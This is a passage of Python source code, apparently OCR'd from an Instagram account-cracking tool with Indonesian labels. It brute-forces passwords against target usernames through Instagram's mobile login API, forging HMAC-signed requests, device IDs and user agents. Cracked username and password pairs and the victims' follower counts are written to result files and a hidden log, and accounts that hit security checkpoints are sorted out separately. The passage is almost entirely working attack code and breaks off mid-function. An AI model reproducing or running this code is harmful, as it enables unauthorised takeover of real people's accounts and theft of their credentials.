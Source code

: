 		ned = hmac.new(ig_sig.encode('utf-8'), str(data1).encode('utf=8'),hashlib.sha256).hexdigest()
		data2 = HARIS["sinkz1"]
		data2.update({'signed_body': f'{ned}.{str(data1)}'})
		head = HARIS["headaing"]
		head.update({"user-agent": ua})
		while True:
				try:
					p = ses.post(HARIS["sinkz2"],headers=head,data=data2)
					break
				except:pass
		sys.stdout.write(f'\r{P}[{H}#{P}] crack {H}stabil {P}{loop}/{len(internal)}{P} OK-:{H}{len(success)} {N}CP-:{K}{len(checkpoint)} {P}');sys.stdout.flush()
		for pw in pas:
				try:
					data = json.dumps({"phone_id":ponid,"_csrftoken": ses.cookies["csrftoken"],"username":user,"guid":guid,"device_id":andro,"password": pw,"login_attempt_count": str(logtemp)})
					ned = hmac.new(ig_sig.encode('utf-8'), str(data).encode('utf=8'),hashlib.sha256).hexdigest()
					head2 = HARIS["headaing1"]
					head2.update({"user-agent": ua})
					pasw = pw.replace(' ','+')
					sianjing = HARIS["sianjing"]
					setan = sianjing.split("||")
					dataa = f'{setan[0]}{ned}{setan[1]}{ponid}{setan[2]}{ses.cookies["csrftoken"]}{setan[3]}{user}{setan[4]}{guid}{setan[5]}{andro}{setan[6]}{pw}{setan[7]}{logtemp}{setan[8]}'
					respon = ses.post(HARIS["crack"],headers=head2,data=dataa)
					try:
						xyaaXD = json.loads(respon.text)
					except:
						xyaaXD = (respon.text)
					logtemp+=1
					if "logged_in_user" in str(xyaaXD) or "sessionid" in ses.cookies.get_dict():
						success.append(user)
						try:
							nama,pengikut,mengikut,postingan=self.APIinfo(user)
							print("\r                                       ")
							adit=f'\rNama      : {nama}\nUsername  : {user}\nPassword  : {pw}\nPengikut  : {pengikut}\nMengikuti : {mengikut}\nPostingan : {postingan}\nUser-Agent: {user_agentAPI()}'
							pepekXD = nel(adit, style='green')
							print('\n')
							cetak(nel(pepekXD,style='',title='\r[green]Account Login Method API[white]'))
							open(f"result/success-{day}.txt","a").write(f'{user}|{pw}|{pengikut}|{mengikut}\n')
							open('.logCrack','a').write(f'{H}╭({H}{loop}{H}) {H}{user} {H}|| {H}{pw}\n{H}╰{H}{respon.text}\n')
							break
						except:
							print("\r                                       ")
							adit=f'\rNama      : null\nUsername  : null\nPassword  : null\nPengikut  : null\nMengikuti : null\nPostingan : null\nUser-Agent: {user_agentAPI()}'
							pepekXD = nel(adit, style='green')
							print('\n')
							cetak(nel(pepekXD,style='',title='\r[green]Account Login Method API[white]'))
							open(f"result/success-{day}.txt","a").write(f'null|null\n')
							open('.logCrack','a').write(f'{H}╭({H}{loop}{H}) {H}{user} {H}|| {H}{pw}\n{H}╰{H}{respon.text}\n')
							break
					elif 'https://i.instagram.com/challenge' in str(respon.text):
						nama,pengikut,mengikut,postingan=self.APIinfo(user)
						print("\r                                       ")
						adit=f'\rNama      : {nama}\nUsername  : {user}\nPassword  : {pw}\nPengikut  : {pengikut}\nMengikuti : {mengikut}\nPostingan : {postingan}\nUser-agent: {user_agentAPI()}'
						pepekXD = nel(adit, style='yellow')
						print('\n')
						cetak(nel(pepekXD,style='', title='\r[yellow]Account Check Method API[white]'))
						open(f"result/checkpoint-{day}.txt","a").write(f'{user}|{pw}|{pengikut}|{mengikut}\n')
						checkpoint.append(user)
						open('.logCrack','a').write(f'{K}╭({K}{loop}{K}) {K}{user} {K}|| {K}{pw}\n{K}╰{K}{respon.text}\n')